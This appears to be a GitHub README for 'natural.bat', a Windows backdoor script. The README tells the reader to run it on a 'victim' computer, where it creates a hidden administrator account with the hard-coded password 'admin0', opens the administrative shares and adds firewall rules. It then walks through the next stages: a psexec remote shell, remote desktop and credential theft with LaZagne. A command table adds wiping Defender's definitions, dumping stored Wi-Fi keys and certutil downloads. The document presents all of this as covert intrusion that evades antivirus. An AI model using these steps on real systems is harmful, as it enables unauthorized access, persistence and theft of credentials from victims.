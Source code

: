 # Natural Backdoor for Windows
# natural.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.

# How does it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'Default' user with password 'admin0' into administrators group.
- Hides 'Default' user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.

# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/natural.bat. From now on the batch file can be run without limitation. 

# Using
The address **\\\ip\c$** gives the attacker full access (including write) to the **c:** drive of the victim's computer. See the image below. The **Default:admin0** account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rules for samba access (windows shares). 

`PsExec.exe \\192.168.0.35 -u default -p admin -s -i cmd`

![Administrative shares](assets/administrative-shares.png "Administrative shares")

The script prompts for an alias for the target computer at the end. The alias string entered is saved at the end of the natural.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.

# Next Stage 1: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the **psexec** program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). psexec tries to connect to the **admin$** share of the remote computer, in order to copy on the remote machine the **PSEXecSVC.exe**, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is **limited by your imagination**.

![Remote shell](assets/remote-shell.png "Remote shell")


# Next Stage 2: Remote Desktop

 -  [Click](uvnc.md) for further steps to remote control victim computer with UltraVNC.
 - You may be interested in [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn) and [AutoRDPwn Dosc](https://darkbyte.net/autordpwn-la-guia-definitiva/)
 

# Next Stage 3: Get stored passwords and credentials


The LaZagne project is an open source application used to retrieve lots of passwords stored on a local computer. Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). This tool has been developed for the purpose of finding these passwords for the most commonly-used software. 			

https://github.com/AlessandroZ/LaZagne/releases/


# Usefull shell commands

| Command|Description|
|--------------|-----------|
|wmic process list brief| **Shows running process**|
|wmic useraccount| **Shows user accounts.**|
|wmic logicaldisk get caption,description,providername|**Show mounted disks**|
|wmic /Node:localhost /Namespace:\\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List|**Show installed Antivirus softwares**|
|sc query windefend |**Show service status of Microsoft Windows Defender.**|
|"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All | **Delete all rules of Defender (useful for machines without internet access)**|
|netsh wlan show profiles |**List stored wireless connection profiles.**|
|netsh wlan show profile name=<SSID Name> key=clear| **Show stored wireless key as clear text.**|
|certutil.exe -urlcache -split -f "url" setup.exe|**Downloads a file from command line without any external tool.**|
|fsutil fsinfo drives|**Get fixed disk drives list.** |
|dir C:\$Recycle.Bin /s /b |**Show recyle bin content.**|
|systeminfo|**Show system info.**|

 - [click](https://github.com/security-cheatsheet/cmd-command-cheat-sheet) some functional command examples. 
 - [click](https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters) basic commands for Pentesters 
 - [click](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png) to check "got administrator access" section in diagram.





# Uninstall
Just run unatural.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.

# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64

# Donation

Would you like to buy me a coffee? [Click](https://www.buymeacoffee.com/ozgurkoca).
